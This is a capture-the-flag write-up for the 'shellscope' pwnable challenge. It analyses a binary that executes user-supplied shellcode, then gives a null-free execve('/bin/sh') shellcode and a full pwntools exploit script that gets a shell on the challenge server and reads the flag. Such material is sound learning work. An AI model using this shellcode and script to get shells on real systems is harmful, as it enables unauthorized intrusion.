

# shellscope Writeup

## Challenge infos

```text
Welcome to Pwnable.co.il!
I hope you'll like this one...

Challenge is running at: nc pwnable.co.il 9000
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟢 Full RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🟢 PIE enabled
        SHSTK:      🟢 Enabled
        IBT:        🟢 Enabled
        Stripped:   🔴 No
```
* as we can see, the binary is very secure, it has full RELRO, NX enabled, PIE enabled, SHSTK enabled, and IBT enabled.
* this means that it will be hard to exploit the binary, but not impossible.
### main disassembly
```asm
   0x00000000000011a9 <+0>:     endbr64
   0x00000000000011ad <+4>:     push   rbp
   0x00000000000011ae <+5>:     mov    rbp,rsp
   0x00000000000011b1 <+8>:     sub    rsp,0x10
   0x00000000000011b5 <+12>:    mov    r9d,0x0
   0x00000000000011bb <+18>:    mov    r8d,0xffffffff
   0x00000000000011c1 <+24>:    mov    ecx,0x21
   0x00000000000011c6 <+29>:    mov    edx,0x7
   0x00000000000011cb <+34>:    mov    esi,0x1000
   0x00000000000011d0 <+39>:    mov    edi,0x0
   0x00000000000011d5 <+44>:    call   0x1090 <mmap@plt>
   0x00000000000011da <+49>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000000011de <+53>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000011e2 <+57>:    lea    rsi,[rip+0x2e37]        # 0x4020 <reset_shellcodes>
   0x00000000000011e9 <+64>:    mov    rdi,rax
   0x00000000000011ec <+67>:    call   0x1080 <strcpy@plt>
   0x00000000000011f1 <+72>:    mov    rax,QWORD PTR [rip+0x2e68]        # 0x4060 <stdin@@GLIBC_2.2.5>
   0x00000000000011f8 <+79>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000000011fc <+83>:    lea    rcx,[rdx+0x30]
   0x0000000000001200 <+87>:    mov    rdx,rax
   0x0000000000001203 <+90>:    mov    esi,0xfcf
   0x0000000000001208 <+95>:    mov    rdi,rcx
   0x000000000000120b <+98>:    call   0x10a0 <fgets@plt>
   0x0000000000001210 <+103>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001214 <+107>:   mov    edx,0x5
   0x0000000000001219 <+112>:   mov    esi,0x1000
   0x000000000000121e <+117>:   mov    rdi,rax
   0x0000000000001221 <+120>:   call   0x10b0 <mprotect@plt>
   0x0000000000001226 <+125>:   mov    rax,QWORD PTR [rbp-0x8]
   0x000000000000122a <+129>:   call   rax
   0x000000000000122c <+131>:   mov    eax,0x0
   0x0000000000001231 <+136>:   leave
   0x0000000000001232 <+137>:   ret
```
* the main function is a bit complex, it uses `mmap` to allocate memory for a shellcode, copies the shellcode into the allocated memory, and then calls it.
* the shell code cannot have any null bytes, as it is copied into a buffer that is not null-terminated.


### first exploit attempt
* let's try to exploit the binary by sending a shellcode that spawns a shell.
* we will use pwntools to create the shellcode and send it to the binary. (shellcarft.sh() has no null bytes)
```python
io = start()

io.sendline(asm(shellcraft.sh()))
io.interactive()
```
* the out put looks like this:
```text
[+] Starting local process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope': pid 44596
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/omri/dev/pwn-writeups/il/shellcope/shellcope' stopped with exit code -11 (SIGSEGV) (pid 44596)
[*] Got EOF while sending in interactive
```
* we got a segmentation fault, which means that the shellcode is not being executed correctly.
* let's try to debug the binary and see what is going wrong.
### debugging the binary
* we can use gdb to debug the binary and see what is going wrong.

* as we can see, the payload is not being executed correctly, and the program is crashing at push instruction.
* this is because sp is set to 0x0 so when we try to push we write to address 0x0, which is not allowed.
### Fixing the shellcode
* we can fix this by putting the `/bin/sh` string after the code, this way ther is no need to push anything to the stack.
* we can do this by using the `lea` instruction to load the address of the string into a register, and then use that register to call the `execve` syscall.
* the shellcode will look like this:
```asm
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative and -1 for no nulls*/
    sub rdi, -9 /* Adjust to point to the start of the string  and sub - insted of add + to avoid nulls*/
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
```
### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template shellcope
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'shellcope')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9001, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()
shellcode = """
    lea rdi, [rip - 1] /* Get address of "/bin/sh" using RIP-relative */
    sub rdi, -9
    mov al, 59           /* execve syscall number */
    syscall
binsh:
    .ascii "/bin/sh\\0"
"""

io.sendline(asm(shellcode))
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9001: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcope
ynetd
$ cat flag.txt
PWNIL{flag_is_here}
```